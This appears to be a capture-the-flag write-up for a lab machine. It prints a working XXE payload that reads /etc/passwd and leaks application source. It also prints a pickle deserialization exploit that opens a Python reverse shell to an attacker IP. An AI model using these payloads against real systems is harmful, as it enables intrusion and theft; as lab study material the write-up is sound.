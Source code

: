 ![](./logo.png)

# USER

Performing the nmap scan gives us http page hosted using `Gunicorn`. There is mention of a `dev.solita.fi` backend on the page.

Using gobuster I have found an `upload` endpoint. It provides an xml structure


Uploading the XML below:
```xml
<note>
    <Author>Author</Author>
    <Subject>Subject</Subject>
    <Content>Content</Content>
</note>
```

Provides us with the message:
```
PROCESSED BLOGPOST: Author: Author Subject: Subject Content: Content URL for later reference: /uploads/payload.xml File path: /home/roosa/deploy/src
```

This seems like files go to the `uploads` endpoint. Lets check out if a non xml file goes there.

The parsing of the xml is vulnerable to XML External Entity (XXE Injection) attacks.

With this payload
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<root> 
    <Author>&test;</Author>
    <Subject>Subject</Subject>
    <Content>Content</Content>
</root>
```

We can leak the `/etc/passwd`!

Previously the `feed.py` was mentioned. And we have a leaked file path (/home/roosa/deploy/src). We can use the payload above to leak the `feed.py`


It all comes out unformatted onto the webpage but with a little fixing we get this:
```python
def uploaded_file(filename): 
    return send_from_directory(Config.UPLOAD_FOLDER, filename) 
    
@app.route("/") 
def xss(): 
    return template('index.html') 
    
@app.route("/feed") 
def fakefeed(): 
    return send_from_directory(".","devsolita-snapshot.png") 
    
@app.route("/newpost", methods=["POST"]) 
def newpost(): # TODO: proper save to database, this is for testing purposes right now 
    picklestr = base64.urlsafe_b64decode(request.data) 
    #return picklestr 
    postObj = pickle.loads(picklestr) 
    return "POST RECEIVED: " + postObj['Subject'] ## TODO: VERY important! DISABLED THIS IN PRODUCTION 
    
    # app = DebuggedApplication(app, evalex=True, console_path='/debugconsole') # TODO: Replace run-gunicorn.sh with real Linux service script 
    # app = DebuggedApplication(app, evalex=True, console_path='/debugconsole')

if __name__ == "__main__":
    app.run(host='0.0.0,0', Debug=True)
```

We can see from the leaked source code that the `/newpost` endpoint is using `pickle`. I know from experience that this is vulnerable to a pickle reverse shell.

Due to the webserver being run on python I know that a python reverse shell will work.

```
Please NOTE: Python2 and Python3 will create different pickle strings
```

Using the pickle exploit:

```python
payload = "python -c 'import socket,subprocess,os;IP=\"10.10.14.55\";PORT=6868;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((IP,PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"

class ReverseShell(object):
    def __reduce__(self):
        import os
        return (os.system, (payload,))
```

We are able to gain a reverse shell on the target. This runs the code because when the `unpickle` method is called it wil always resolve the `__reduce__` method causing our payload to run.

This gives us the ability to `cat` the `user.txt`.